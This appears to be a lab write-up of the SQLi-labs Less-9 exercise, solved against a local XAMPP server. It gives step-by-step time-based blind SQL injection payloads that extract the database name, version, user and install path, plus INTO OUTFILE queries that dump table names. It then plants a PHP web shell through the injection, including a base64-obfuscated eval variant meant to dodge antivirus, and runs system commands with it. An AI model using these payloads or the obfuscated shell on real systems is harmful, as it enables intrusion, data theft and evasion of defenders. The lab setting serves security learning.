

### **Lab - 0x09**
This lab is Time-based Blind SQL Injection.

**Detection Payload:**
1. I started fuzzing the `id` parameter to check how the application behaves.
2. I did `?id=-1 or 1=1--+` and `?id=-1 or 1=2--+`, but the output was same string `You are in...........`.
3. I also checked `?id=1` and `?id=1\`, but I was getting same output.
4. I decided to view the page source code to check if there are any additional hints I can use, so I did <code>CTRL + U</code> and checked the code through the URL `view-source:http://localhost/sqli-labs-master/Less-9/?id=1`, I saw this:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-9 Blind- Time based- Single Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


 
<font size="5" color="#FFFF00">You are in...........<br></font></font> </div></br></br></br><center>
</center>
</body>
</html>

```
5. Then, I added `'` single quote to check if the application gives any error, or any change in response. I got this response:-
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-9 Blind- Time based- Single Quotes- String</title>
</head>

<body bgcolor="#000000">
<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


 
<font size="5" color="#FFFF00">You are in...........</br></font><font color= "#0000ff" font size= 3></font> </div></br></br></br><center>
</center>
</body>
</html>
```
6. Noticed the Bytes returned in the response, the first one had `707 bytes` while the second has `744 bytes`. Also, I analyzed the difference between the 1st and 2nd response.

7. I used a simple string comparer to check the difference between 1st and 2nd response. We can clearly see the difference in the response, now we can use `view-source` source to analyze if our sql injection is being executed successfully or not.
8. Then, I confirmed by doing a simple check, `?id=-1' or 1=1--+` and `?id=-1' or 1=2--+`. Notice, the code `<font color= "#0000ff" font size= 3>` only appears when the query returned false. We are going to use this to identify whether the query returned true or false. So I crafted this payload to identify the number of rows returning, `-1' union select 1--+` to identify the number of columns because the `order by` query's result wasn't changing or signaling us. I kept on `-1' union select 1,2,3,4,5,6,7,8,9,10--+` to working backwards, until I finally came to know the query returned only 3 rows `-1' union select 1,2,3--+`, because this request didn't returned the `<font color= "#0000ff" font size= 3>`, I cross-checked by giving `1,2,3,4` and the `font` tag was returning, then I tried with `1,2` and I can see the `font`, but when switched back to `1,2,3`, it was missing, signaling the query is returning 3 rows. Then, the rest of the payloads are as follows.

**Total columns**:

1. `-1' order by 10--+` (showed `Unknown column '10' in 'order clause'`)
2. `-1' order by 5--+` (showed `Unknown column '5' in 'order clause'`)
3. Tried with lower, `-1' order by 2--+` (no output, means there are atleast 2 columns returning in the select sql query)
4. Tried with 3, `-1' order by 3--+` (same behavior)
5. Tried with 4, `-1' order by 4--+` (showed  `Unknown column '4' in 'order clause'`)
6. This confirmed, there are only 3 columns retuning in the sql query.

---

**----------------------------------------------------------------------------------**

Then, I attempted to extract the database name  but it was a length process as I'm doing it manually, but I'll keep it short.
These are the following set of payloads and queries I used to bruteforce the version of database, char-by-char using substring function paired with if condition
in mysql.

1. First, getting the string length of the database.
    * `-1' union select (select if(length(database())<20, sleep(5), null)),0x00,0x00--+` (Timeout: 5 seconds)
    * `-1' union select (select if(length(database())<15, sleep(5), null)),0x00,0x00--+` (Timeout: 5 seconds)
    * `-1' union select (select if(length(database())<10, sleep(5), null)),0x00,0x00--+` (Timeout: 5 seconds)
    * `-1' union select (select if(length(database())<5, sleep(5), null)),0x00,0x00--+` (No timeout)
    * `-1' union select (select if(length(database())<7, sleep(5), null)),0x00,0x00--+` (No timeout)
    * `-1' union select (select if(length(database())<8, sleep(5), null)),0x00,0x00--+` (No timeout)
    * `-1' union select (select if(length(database())<9, sleep(5), null)),0x00,0x00--+` (Timeout: 5 seconds)
    * `-1' union select (select if(length(database())=8, sleep(5), null)),0x00,0x00--+` (Timeout: 5 seconds)
    * `-1' union select (select if(length(database())=9, sleep(5), null)),0x00,0x00--+` (No timeout)
    * Therefore, the length of the database string is 8 characters.
2. Now, since I know that the database is 8 characters long, now I need to bruteforce the name of the database character by character from A-Za-z0-9
    including  the special characters from 1 to 8.
    * `-1' union select (select if((substring(database(),1,1)='a'), sleep(5), null)),2,3--+` (No timeout)
    * `-1' union select (select if((substring(database(),1,1)='b'), sleep(5), null)),2,3--+` (No timeout)
    * `-1' union select (select if((substring(database(),1,1)='c'), sleep(5), null)),2,3--+` (No timeout)
    * I did this for each character and finally dumped the database name as `security`.
    * Confirmation sqli payload, `-1' union select (select if((substring(database(),1,8)='security'), sleep(5), null)),2,3--+`.
    * Deliberately making the name wrong to prevent sleep for final conf, `-1' union select (select if((substring(database(),1,8)='securits'), sleep(5), null)),2,3--+`.

3. Same method applied for version and user and the final results are:
    - **Database** - `security`
    - **Version** - `10.1.38-MariaDB`
    - **User** - `root@localhost`

**----------------------------------------------------------------------------------**

**File Path Enumeration**
1. Now, that I have the database name, I need to find the directory structure where I can dump all the credentials.
2. I used MySQL's `@@basedir` system variable which specify the installation directory of the MySQL server.
3. Now, first we need to find the length of the string for `@@basedir` variables, basically the string length of the MySQL's installation, so we know how many chars
   we have to bruteforce.
4. Here's payload I used `-1' union select if(length((select @@basedir))<20, sleep(5), null), 0x00, 0x00--+`.
5. After, a length bruteforce, and some common directory Drives and dir bruteforce, the final sqli payload was
    `-1' union select if(substring((select @@basedir as fPath),1,14)=CHAR(67, 58, 47, 120, 97, 109, 112, 112, 47, 109, 121, 115, 113, 108), sleep(5), null), 2, 3--+`;
    which is `C:/xampp/mysql`.
6. For confirming, I intentionally gave wrong ascii char code from `67 58 47 120 97 109 112 112 47 109 121 115 113 108` to `67 58 47 120 97 109 112 112 47 109 121 115 113 109` > 
```javascript
'67 58 47 120 97 109 112 112 47 109 121 115 113 109'.split(' ').join(', ')
```
> `-1' union select if(substring((select @@basedir as fPath),1,14)=CHAR(67, 58, 47, 120, 97, 109, 112, 112, 47, 109, 121, 115, 113, 109), sleep(5), null), 2, 3--+` and the there was no server timeout. Hence, confirming the mysqls installation path is `C:/xampp/mysql`.

**----------------------------------------------------------------------------------**

**Credentials Dump**
1. Now that I know the file path, it's time to dump the credentials.
2. First need to know the table names, I crafted this payload to do so, `-1' union select group_concat(table_name), NULL, NULL from information_schema.tables where table_schema='security' INTO OUTFILE 'C:/xampp/htdocs/tbl_name.txt'--+`, then went to `http://localhost/tbl_name.txt` and got the following information, `emails,referers,uagents,users`.
3. Same I did for columns of `users` table with payload `-1' union select group_concat(column_name), NULL, NULL from information_schema.columns where table_name='users' INTO OUTFILE 'C:/xampp/htdocs/col_names.txt'--+` visited `http://localhost/col_names.txt` and got `USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password`.

**----------------------------------------------------------------------------------**

**Reverse Shell**
1. Alright, now final step is to get a reverse shell to fully compromise the server.
2. I used basic php reverse shell
```php
<?php system($_GET['cmd']); ?>
```
3. Used the following payload, `-1' union select "<?php system($_GET['cmd']); ?>", NULL, NULL from users INTO OUTFILE 'C:/xampp/htdocs/web_shell.php'--+`
4. The sql query ran successfully, then I visited `http://localhost/web_shell.php`, but for a 404. So why did this happen? Most probably our file got flagged as malicious and removed by Windows Defender or Antivirus, therefore, It's time to change the signature via obfuscation.
5. So I used this, payload
```php
<?php eval(base64_decode('CiBlY2hvICJceDNjXHg3MFwxNjJceDY1XDc2IiAuIHNoZWxsX2V4ZWMoJF9SRVFVRVNUWyJceDYzXDE1NVx4NjQiXSkgLiAiXHgzY1w1N1wxNjBcMTYyXHg2NVw3NiI7IA==')); ?>
```
6. Wrote using `-1' union select "<?php eval(base64_decode('CiBlY2hvICJceDNjXHg3MFwxNjJceDY1XDc2IiAuIHNoZWxsX2V4ZWMoJF9SRVFVRVNUWyJceDYzXDE1NVx4NjQiXSkgLiAiXHgzY1w1N1wxNjBcMTYyXHg2NVw3NiI7IA==')); ?>", 0x00, 0x00 from users INTO OUTFILE 'C:/xampp/htdocs/obf_web_shell.php'--+` then visited the shell `http://localhost/obf_web_shell.php?cmd=whoami` and got `anoncoderh4ck3r\217da`, then checked whether we are admin or not using `http://localhost/obf_web_shell.php?cmd=net user` and got
```bash
User accounts for \\ANONCODERH4CK3R

-------------------------------------------------------------------------------
217da                    Administrator            DefaultAccount           
Guest                    HuzefaOracleDB           WDAGUtilityAccount       
The command completed successfully.
```
7. And with that, we don't need to escalate the privileges, we are admin.

Thanks for reading :)